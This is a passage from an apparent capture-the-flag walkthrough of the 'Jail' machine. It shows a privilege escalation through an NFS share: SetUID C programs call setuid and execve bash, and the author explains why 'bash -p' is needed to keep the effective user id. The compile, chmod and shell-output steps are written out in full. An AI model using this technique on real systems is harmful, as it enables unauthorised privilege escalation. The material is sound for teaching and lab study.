     bash-4.2$ $ ./c
    uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0



The `[r]uid` is 99, but the `euid` is 1000.

If I try to get a shell from this, I have to be careful. For example,
just calling `bash`:



    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>

    int main(void) {
        setuid(1000);
        execve("/bin/bash", NULL, NULL);
        return 0;
    }



I'll compile that and set it SetUID:



    oxdf@hacky$ gcc d.c -o /mnt/nfsshare/d
    oxdf@hacky$ chmod 4755 /mnt/nfsshare/d



Still, this will return all nobody:



    bash-4.2$ $ ./d
    bash-4.2$ $ id
    uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0



If it were `setuid(0)`, then it would work fine (assuming the process
had permission to do that), as then it changes all three ids to 0. But
as a non-root user, this just sets the `euid` to 1000 (which is already
was), and then calls `sh`. But `sh` is `bash` on Jail. And when `bash`
starts with `ruid` of 99 and `euid` of 1000, it will drop the `euid`
back to 99.

To fix this, I'll call `bash -p`:



    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>

    int main(void) {
        char *const paramList[10] = {"/bin/bash", "-p", NULL};
        setuid(1000);
        execve(paramList[0], paramList, NULL);
        return 0;
    }
